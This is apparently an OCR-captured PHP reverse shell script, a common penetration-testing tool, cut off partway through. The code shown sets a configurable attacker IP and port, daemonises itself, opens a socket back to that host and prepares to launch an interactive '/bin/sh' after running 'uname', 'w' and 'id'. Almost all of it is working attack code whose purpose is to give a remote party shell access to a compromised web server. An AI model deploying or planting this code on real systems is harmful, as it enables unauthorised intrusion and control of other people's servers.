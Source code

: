 ```php
<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
```